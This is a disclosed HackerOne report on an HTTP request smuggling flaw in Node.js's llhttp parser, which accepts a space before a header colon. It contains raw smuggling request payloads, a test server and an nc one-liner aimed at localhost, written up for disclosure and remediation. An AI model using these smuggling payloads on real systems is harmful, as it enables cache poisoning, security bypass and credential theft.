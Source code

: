 # HTTP Request Smuggling due to accepting space before colon

## Report Details
- **Report ID**: 1238709
- **URL**: https://hackerone.com/reports/1238709
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-20T11:10:00.909Z
- **Disclosed**: 2021-10-20T14:58:11.063Z

## Reporter
- **Username**: mkg
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:**
The ``llhttp`` parser in the ``http``module in Node 16.3.0 accepts requests with a space (SP) right after the header name before the colon. This can lead to HTTP Request Smuggling (HRS).

**Description:**
When Node receives the following request:

```
GET / HTTP/1.1
Host: localhost:5000
Content-Length : 5

hello
```

It interprets the request as having the body `hello`. Here is the relevant section of the code: https://github.com/nodejs/llhttp/blob/master/src/llhttp/http.ts#L410-L415

How could this lead to HRS? Imagine that Node is placed behind a proxy which ignores the CL header with a space before the colon, but forwards it as is. Then the following attack can be performed:

```
GET / HTTP/1.1
Host: localhost:5000
Content-Length : 23

GET / HTTP/1.1
Dummy: GET /smuggled HTTP/1.1
Host: localhost:5000

```

The proxy would see the first and the second GET-request. But Node would see the first and the third GET-request.

## Steps To Reproduce:

We don't know of any proxy that behaves this way, but here is how to show that Node is behaving in the described way. Run the following code like this: `node app.js`

```js
const http = require('http');

// https://nodejs.org/en/docs/guides/anatomy-of-an-http-transaction/

http.createServer((request, response) => {
  let body = [];
  request.on('error', (err) => {
    response.end("error while reading body: " + err)
}).on('data', (chunk) => {
    body.push(chunk);
}).on('end', () => {
    body = Buffer.concat(body).toString();

    response.on('error', (err) => {
        response.end("error while sending response: " + err)
    });

    response.end("Body length: " + body.length.toString() + " Body: " + body);
  });
}).listen(5000);
```

Then send a request with a space between the CL header and the colon. This can be done with the following one-liner:

```sh
echo -en "GET / HTTP/1.1\r\nHost: localhost:5000\r\nContent-Length : 5\r\n\r\nhello" | nc localhost 5000
```

See that Node interpreted the body as `hello`.

# Supporting Material/References:

Relevant section of RFC 7230 (second paragraph of https://datatracker.ietf.org/doc/html/rfc7230#section-3.2.4):

```
   No whitespace is allowed between the header field-name and colon.  In
   the past, differences in the handling of such whitespace have led to
   security vulnerabilities in request routing and response handling.  A
   server MUST reject any received request message that contains
   whitespace between a header field-name and colon with a response code
   of 400 (Bad Request).  A proxy MUST remove any such whitespace from a
   response message before forwarding the message downstream.
```

## Impact

Depending on the specific web application, HRS can lead to cache poisoning, bypassing of security layers, stealing of credentials and so on.

## Attachments
No attachments
